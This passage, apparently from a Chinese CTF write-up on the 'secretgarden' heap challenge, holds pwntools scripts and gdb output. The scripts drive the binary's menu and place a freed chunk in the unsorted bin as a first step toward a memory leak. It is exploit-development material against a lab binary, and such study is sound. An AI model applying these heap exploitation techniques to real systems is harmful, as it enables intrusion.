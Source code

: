 ```python
# debug function
def debug(addr=0,cmd='',PIE=True):
    if PIE: addr = gdb_text_base + addr
    log.warn("breakpoint_addr --> 0x%x" % addr)
    gdb.attach(io,"b *{}\nc\n".format(hex(addr))+cmd) 

add     = lambda len,name,color :  (sla("choice : ","1"),sla("name :",str(len)),sla("flower :",name),sla("flower :",color))
show    = lambda                :  (sla("choice : ","2"))
rm      = lambda num            :  (sla("choice : ","3"),sla("garden:",str(num)))
clear   = lambda                :  (sla("choice : ","4"))


add(500,"1","1")
add(10,'2','2')
rm(0)
debug(0x107b,'heap chunks\nheap bins')
show()
io.interactive()
```

发现的确成功：

```bash
─────────────────── Unsorted Bin for arena '*0x7feca5bbeb20' ───────────────────
[+] unsorted_bins[0]: fw=0x560898155040, bk=0x560898155040
 →   Chunk(addr=0x560898155050, size=0x200, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
```

并且当然并不能打印0号花朵的名字信息，所以尝试把这个unsortbin中的堆块在搞出来：

```python
from pwn import *

# challenge information
context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./secretgarden")
libc   = ELF("./libc_64.so.6")
io     = process(myelf.path,env={"LD_PRELOAD" : libc.path})

# functions for quick script
sla     = lambda delim,data         :io.sendlineafter(delim, data) 

# misc functions
uu64    = lambda data   :u64(data.ljust(8, b'\0'))
leak    = lambda name,addr :log.success('{} : {:#x}'.format(name, addr))

# base addr
gdb_text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(io.pid)).readlines()[1], 16)
gdb_libc_base = int(os.popen("pmap {}| grep libc | awk '{{print $1}}'".format(io.pid)).readlines()[0], 16)

# debug function
def debug(addr=0,cmd='',PIE=True):
    if PIE: addr = gdb_text_base + addr
    log.warn("breakpoint_addr --> 0x%x" % addr)
    gdb.attach(io,"b *{}\nc\n".format(hex(addr))+cmd) 

add     = lambda len,name,color :  (sla("choice : ","1"),sla("name :",str(len)),sla("flower :",name),sla("flower :",color))
show    = lambda                :  (sla("choice : ","2"))
rm      = lambda num            :  (sla("choice : ","3"),sla("garden:",str(num)))
clear   = lambda                :  (sla("choice : ","4"))

```